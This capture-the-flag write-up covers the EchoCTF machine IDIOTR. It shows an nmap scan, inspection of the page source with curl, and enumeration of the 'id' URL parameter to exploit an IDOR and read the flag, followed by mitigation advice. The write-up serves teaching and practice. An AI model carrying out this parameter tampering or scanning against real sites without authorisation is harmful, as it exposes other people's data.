 # **IDIOTR**

![idiotr1](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr1.png)

## **Introduction**

The **IDIOTR** machine from **EchoCTF** presents a web challenge that hides a single flag, which can be obtained by exploiting an **IDOR (Insecure Direct Object References)** vulnerability. This type of vulnerability allows access to restricted resources by manipulating URL parameters.

**IP:** `10.0.41.2`

---

## **Reconnaissance and Scanning**

We began reconnaissance on the **IDIOTR** machine using **Nmap**. The command used was:

```bash
nmap -sSC -vv -p- 10.0.41.2
```

**Result:**
```
PORT     STATE SERVICE REASON
1337/tcp open  waste   syn-ack ttl 63
```

Port **1337** is open. When connecting to IP `10.0.41.2` on that port via HTTP, we get a simple webpage with a navigation menu containing sections like *Home*, *About*, *Blogs*, and *Secret*.

![iditr2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr2.png)

---

## **Source Code Inspection**

We used `curl` to check the source code of the website from the terminal:

```bash
curl http://10.0.41.2:1337/
```

In the source, we see this navigation structure:

```html
<a class="nav-link" href="/">Home</a>
<li class="nav-item active">
  <a class="nav-link" href="/?id=2">About</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=3">Blogs</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=4">Secret</a>
</li>
```

This shows the site uses the `id` parameter to display content, which is a typical sign of an **IDOR**. The listed IDs go from `2` to `4`.

---

## **IDOR Exploitation**

We attempted to locate the flag by using `curl` and `grep` to search for the "ETSCTF" pattern:

```bash
curl http://10.0.41.2:1337/?id=4 | grep "ETSCTF"
```

After trying `id=2` through `id=4` with no success, we tested `id=1`:

```bash
curl http://10.0.41.2:1337/?id=1 | grep "ETSCTF"
```

**Response:**
``` shell 
<p>Now You know why its called Insecure Direct Object Reference ETSCTF_:DDDDDDDDDDDDDDDDDDDDDD</p>
```

This confirms the `id` parameter is not properly validated and allows access to sensitive data.

---

## **Vulnerability Identification**

The vulnerability identified is **IDOR (Insecure Direct Object Reference)**. It occurs when applications allow access to internal objects by manipulating parameters (like `id=1`, `id=2`, etc.) without verifying user permissions.

This enables attackers to obtain unauthorized access to sensitive content just by guessing or modifying the values.

---

## **Mitigation Measures**

To prevent IDOR vulnerabilities, the following best practices should be applied:

- **Object-level access control:** Always check if the user is authorized to access a resource, even if the request seems valid.

- **Parameter validation:** All URL parameters must be strictly validated before use.

- **Unpredictable identifiers:** Avoid sequential IDs. Use UUIDs or other non-guessable schemes.

- **Logging and alerts:** Monitor access to sensitive parameters and alert on suspicious access patterns, such as probing multiple IDs.
